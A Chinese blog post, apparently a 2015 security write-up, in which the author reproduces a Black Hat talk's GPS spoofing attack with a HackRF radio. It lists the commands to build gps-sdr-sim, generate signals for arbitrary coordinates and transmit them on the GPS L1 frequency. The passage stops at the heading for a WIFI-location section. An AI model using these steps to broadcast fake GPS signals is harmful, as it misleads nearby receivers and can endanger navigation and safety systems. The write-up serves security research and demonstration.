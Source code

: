 # 劫持GPS定位&劫持WIFI定位

[ lxj616](/author/lxj616) · 2015/11/20 10:12

## 0x00 概述

* * *

在刚刚举行的Black Hat Europe 2015大会上，来自阿里移动安全的Wang Kang & Shuhua Chen & Aimin Pan展示了劫持GPS定位以及劫持WIFI定位的技术

于是我用朋友的Hackrf试了一下

## 0x01 GPS劫持步骤

* * *

在Ubuntu 15.10中安装gnuradio以及hackrf工具

    
    
    apt-get install gnuradio gr-osmosdr hackrf
    

请注意，这里目前无法使用kali的hackrf软件包，因为需要-R选项来进行repeat，而kali暂时没有更新hackrf软件包至最新

编译开源的gps模拟工具

    
    
    git clone https://github.com/osqzss/gps-sdr-sim.git
    cd gps-sdr-sim
    make
    

设置经纬度并生成数据样本

    
    
     ./gps-sdr-sim -e brdc3540.14n -l 30.286502,120.032669,100
    

然后插上Hackrf，开始伪造GPS信号

    
    
    hackrf_transfer -t gpssim.bin -f 1575420000 -s 2600000 -a 1 -x 0 -R 
    

测试时发现由于Hackrf本身做工问题，只能坚持连续工作5分钟，之后噪声过大导致信噪比无法满足GPS定位的要求，所以大家在测试时一定要等到准备完毕再插上Hackrf，执行命令后立即查看效果

效果如图所示：

![enter image descriptionhere](http://static.wooyun.org//drops/20151119/2015111903443588322.jpg)

所有的卫星GPS都是伪造出来的，因此也比较整齐，不够整齐是因为山寨的Hackrf硬件原因

![enter image descriptionhere](http://static.wooyun.org//drops/20151119/2015111903443512671.jpg)

这里的坐标我随便定的，定在吉林省了，上文中给出的坐标是杭州

## 0x02 WIFI定位劫持步骤
